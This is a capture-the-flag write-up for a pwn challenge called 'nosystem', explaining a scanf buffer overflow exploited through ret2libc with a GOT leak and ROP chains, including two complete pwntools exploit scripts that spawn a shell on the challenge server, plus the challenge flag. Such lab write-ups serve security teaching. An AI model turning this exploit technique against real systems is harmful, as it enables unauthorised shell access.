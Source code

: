 # nosystem

---

### Challenge Description

> Four. Times. In. A. Row. Okay that's it, i'm just going to remove almost all functionalities in my program. Can't exploit it if there's nothing to exploit right?

> Interact with the service at 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:30401

> Concept(s) Required:
> Address Space Layout Randomization, Global Offset Table, Ret2Libc

[nosystem.zip](https://github.com/caprinux/Cyberthon-2021-Training/files/6330555/nosystem.zip)

---

### Solution

_i suggest you read up on the required concepts before u read any further because i won't be explaining them_

We run the binary and it takes in a username and nothing else.

Reading the source code:

```c

int main()

{

    char username[256];
    
    ... puts(some cool ascii art here)...
    
    printf("Enter Username => ");
    scanf("%s", username);
    printf("Greetings %s!", username);

    return 0;
}
```

Okay. Once again, scanf does not limit our input and we have a buffer overflow. What next?

Heres what ret2libc come in. If we can overflow the buffer, then return to system("/bin/sh") in libc, we can get a shell.

However how the heck do we start you may be wondering? How do I know where LIBC is?

This is where the global offset table comes in (GOT for short). The GOT holds the LIBC addresses of common functions like printf, puts, scanf etc.

If we can find out where the `system()` function is in LIBC we can return to it. 

However, to find out the address of system(), we have to first find the address of `libc.base`.

We cannot find by merely debugging or whatever, as ASLR is enabled.

Definition of [ASLR](https://tinyurl.com/addresslr):  Address Space Layout Randomization (ASLR) is a computer security technique which involves randomly positioning the base address of an executable and the position of libraries, heap, and stack, in a process's address space.

Hence, we have to find all our addresses at runtime, and work with offsets.

Our exploit will be split into 2 parts, the first part will leak the libc base and the second part will pop the shell.

Since we have control over the return pointer, we will be doing this with `Return Oriented Programming Chains`. The idea is that you can basically define the flow of the program by continously returning to functions and gadgets.

From the source code, we can see that `puts()` was called. This means that `puts()` has been imported from the C library aka libc.

So we have talked about GOT holding the address of library functions, but you also have to know that the Procedure Linkage Table (PLT) holds the small instructions to execute these functions.

For our first ROP chain, we will want to leak a function in the global offset table, `puts` is an ideal candidate.

We want to puts(global offset table address) and then return to main() so we can continue sending more ROP chains.

This can be done by popping `puts GOT address` into `RDI` and then calling the `PUTS procedure` to print out the `GOT address of puts`.

```
payload 1 = overflow + p64(poprdi) + p64(putsgot) + p64(putsplt) + p64(main)
```

We move on to the second part of our exploit.

Now that we have the GOT of puts, which is also the PUTS offset from LIBC , we can find our LIBC base.

```
libc.base = putsgot - libc address of puts
```

Now with our libc base, we can find `system()` and `/bin/sh`.

This allows us to easily craft our next ROP chain:

```
payload2 = overflow + p64(poprdi) + p64(binsh) + p64(system))
```

and gives us our shell.

Now to get into the more technical details. How do we write our ROP chain at runtime?

```py
from pwn import * 
p = process('./nosystem')
elf = ELF('nosystem')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')
rop = ROP(elf)

# chain 1
overflow = "A"*264
putsgot = elf.got['puts']
putsplt = elf.plt['puts']
main = elf.sym['main']
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
p.clean()
p.sendline(overflow + p64(poprdi) + p64(putsgot) + p64(putsplt) + p64(main))

# receive putsgot leak
p.recvuntil("@!")
received = p.recvline()
leak = u64(received.ljust(8, "\x00")) # unpack address from bytes into integer
leak = leak - 2814749767106560 # puts prints a newline together with leak hence i remove it
print(hex(leak))

# chain 2
base = leak - libc.sym['puts'] # calculate libc base
libc.address = base
system = libc.sym['system']
binsh = next(libc.search('/bin/sh'))
p.clean()
log.info("base: " + hex(base))
log.info("system: " + hex(system))
log.info("binsh: " + hex(binsh))
log.info("leak: " + hex(leak))
p.sendline(overflow + p64(poprdi) + p64(binsh) + p64(system))
p.interactive()
```

Uh yeah. Something like that 😸

Okay I'm sure y'all are smart enough to figure that out urself 😜 If you need help feel free to dm me.

Anyways, if you run that locally, congrats! It works.

However, like I mentioned in past pwn writeup, scripts that work locally may not work remotely.

![image](https://user-images.githubusercontent.com/76640319/115136185-b9cd4f00-a050-11eb-81f2-41cc0e11e5be.png)

As you can see, I don't have a shell. What the heck!?

We missed out one crucial step. The server may not be using the same libc as us. Hence we have to leak the libc version as well.

That is simple. 

![image](https://user-images.githubusercontent.com/76640319/115136195-de292b80-a050-11eb-9bfc-6bfb8f2ec99e.png)

We can take our leak `[*] leak: 0x7f28d6d42d60` to help us find the libc.

Even though ASLR is enabled, offset doesnt change. Hence this `puts got address` will be the same for the same libc.

There are only libraries to help us find libc based on offsets.

![image](https://user-images.githubusercontent.com/76640319/115136229-1df01300-a051-11eb-98b4-be99301535d0.png)

https://libc.blukat.me/?q=puts%3A0x7f58444f2d60&l=libc6_2.19-0ubuntu6.15_amd64

We are presented with 3 possible libraries. One way to narrow it down can be leaking more GOT entries, or you can just try them one by one.

![image](https://user-images.githubusercontent.com/76640319/115136269-3f50ff00-a051-11eb-838f-f3a3df32fd16.png)

We download `libc6_2.19-0ubuntu6.15_amd64` and we modify our script, providing the path of this libc.

```py
from pwn import * 
p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30401)
elf = ELF('nosystem')
libc = ELF('libc6_2.19-0ubuntu6.15_amd64.so')
rop = ROP(elf)

# chain 1
overflow = "A"*264
putsgot = elf.got['puts']
putsplt = elf.plt['puts']
main = elf.sym['main']
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
p.clean()
p.sendline(overflow + p64(poprdi) + p64(putsgot) + p64(putsplt) + p64(main))

# receive putsgot leak
p.recvuntil("@!")
received = p.recvline()
leak = u64(received.ljust(8, "\x00")) # unpack address from bytes into integer
leak = leak - 2814749767106560 # puts prints a newline together with leak hence i remove it
print(hex(leak))

# chain 2
base = leak - libc.sym['puts'] # calculate libc base
libc.address = base
system = libc.sym['system']
binsh = next(libc.search('/bin/sh'))
p.clean()
log.info("base: " + hex(base))
log.info("system: " + hex(system))
log.info("binsh: " + hex(binsh))
log.info("leak: " + hex(leak))
p.sendline(overflow + p64(poprdi) + p64(binsh) + p64(system))
p.interactive()
```

We 🔥 our script. And voila! 

![image](https://user-images.githubusercontent.com/76640319/115136322-a53d8680-a051-11eb-8acd-1d381bab6634.png)

```
CTFSG{n0_5y5t3m_n0_pr0bl3m_p0p_p0p_r3t}
```
